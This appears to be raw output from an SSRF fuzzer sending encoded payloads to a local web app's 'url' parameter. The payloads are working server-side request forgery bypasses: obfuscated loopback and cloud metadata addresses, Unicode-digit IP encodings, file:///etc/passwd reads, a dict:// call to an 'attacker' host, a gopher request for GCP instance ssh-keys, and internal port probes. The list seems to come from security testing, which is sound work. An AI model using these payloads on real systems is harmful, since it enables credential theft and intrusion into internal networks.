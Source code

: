 - Testing: `http://localhost:4200/?url=0177.0001.0000..0001`
- Testing: `http://localhost:4200/?url=0x7f.0x1.0x0.0x1`
- Testing: `http://localhost:4200/?url=0x7f.0x1.0x1`
- Testing: `http://localhost:4200/?url=ht%EF%BF%BD%EF%B8%8Ftp%3A%2F%2F12%EF%BF%BD7.0.0.1`
- Testing: `http://localhost:4200/?url=loopback%3A%2B11211aaa`
- Testing: `http://localhost:4200/?url=loopback%3A00011211aaaa`
- Testing: `http://localhost:4200/?url=%E2%91%AF%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%E3%80%82%E2%91%AF%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3`
- Testing: `http://localhost:4200/?url=169.254.169.254`
- Testing: `http://localhost:4200/?url=2852039166`
- Testing: `http://localhost:4200/?url=7147006462`
- Testing: `http://localhost:4200/?url=0xa9.0xfe.0xa9.0xfe`
- Testing: `http://localhost:4200/?url=0251.0376.0251.0376`
- Testing: `http://localhost:4200/?url=169%E3%80%82254%E3%80%82169%E3%80%82254`
- Testing: `http://localhost:4200/?url=169%EF%BD%A1254%EF%BD%A1169%EF%BD%A1254`
- Testing: `http://localhost:4200/?url=%E2%91%A3%E2%91%A1%E2%91%A4%EF%BD%A1%E2%91%A4%E2%91%A0%E2%93%AA%EF%BD%A1%E2%91%A3%E2%91%A1%E2%91%A4%EF%BD%A1%E2%91%A4%E2%91%A0%E2%93%AA%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%3A80`
- Testing: `http://localhost:4200/?url=%5B%3A%3A%E2%91%A0%E2%91%A5%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3%EF%BD%A1%E2%91%AF%E2%91%A8%EF%BD%A1%E2%91%A1%E2%91%A4%E2%91%A3%5D%3A80`
- Testing: `http://localhost:4200/?url=%5B%3A%3A%E2%93%95%E2%93%95%E2%93%95%E2%93%95%3A%E2%91%A0%E2%91%A5%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%E3%80%82%E2%91%AF%E2%91%A8%E3%80%82%E2%91%A1%E2%91%A4%E2%91%A3%5D%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%E3%80%82%E2%93%AA%E2%91%A2%E2%91%A6%E2%91%A5%E3%80%82%E2%91%A3%E2%91%A2%E2%91%A4%E2%91%A0%E2%91%A7%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%A7%E2%93%90%E2%91%A8%EF%BD%A1%E2%91%AF%E2%91%A5%E2%91%A7%E2%91%A8%E2%91%A5%E2%91%A5%E2%91%A1%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%E3%80%82%E2%91%AF%E2%91%A5%E2%91%A7%E2%91%A8%E2%91%A5%E2%91%A5%E2%91%A1%3A80`
- Testing: `http://localhost:4200/?url=%E2%93%AA%E2%93%AA%E2%91%A1%E2%91%A4%E2%91%A0%EF%BD%A1%E2%93%AA%E2%93%A7%E2%93%95%E2%93%94%EF%BD%A1%E2%91%A3%E2%91%A2%E2%91%A4%E2%91%A0%E2%91%A7%3A80`
- Testing: `http://localhost:4200/?url=dict%3A%2F%2Fattacker%3A11111`
- Testing: `http://localhost:4200/?url=file%3A%2F%2F%2Fetc%2Fpasswd`
- Testing: `http://localhost:4200/?url=file%3A%2F%2F%5C%2F%5C%2Fetc%2Fpasswd`
- Testing: `http://localhost:4200/?url=file%3A%2F%2Fpath%2Fto%2Ffile`
- Testing: `http://localhost:4200/?url=gopher%3A%2F%2Fmetadata.google.internal%3A80%2FxGET%2520%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fssh-keys%2520HTTP%252f%2531%252e%2531%250AHost%3A%2520metadata.google.internal%250AAccept%3A%2520%252a%252f%252a%250aMetadata-Flavor%3A%2520Google%250d%250a`
- Testing: `http://localhost:4200/?url=gopher%3A%2F%2Fnozaki.io%2F_SSRF%250ATest!`
- Testing: `http://localhost:4200/?url=0.0.0.0%3A22`
- Testing: `http://localhost:4200/?url=0.0.0.0%3A443`
- Testing: `http://localhost:4200/?url=0.0.0.0%3A80`
- Testing: `http://localhost:4200/?url=0.0.0.0%3A3389`
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A22`
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A25`
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A3128`
- Testing: `http://localhost:4200/?url=0000%3A%3A1%3A3389`
- Testing: `http://localhost:4200/?url=0251.00376.000251.0000376`
- Testing: `http://localhost:4200/?url=0x41414141A9FEA9FE`
- Testing: `http://localhost:4200/?url=0xA9.0xFE.0xA9.0xFE`
- Testing: `http://localhost:4200/?url=0xA9FEA9FE`
- Testing: `http://localhost:4200/?url=0xa9fea9fe`
- Testing: `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2F`
- Testing: `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2Fimage-id`
- Testing: `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2Finstance-id`
- Testing: `http://localhost:4200/?url=127.0.0.0`
- Testing: `http://localhost:4200/?url=127.0.0.1%3A22`
- Testing: `http://localhost:4200/?url=127.0.0.1%3A2379%2Fversion`
- Testing: `http://localhost:4200/?url=127.0.0.1%3A443`
- Testing: `http://localhost:4200/?url=127.0.0.1%3A80`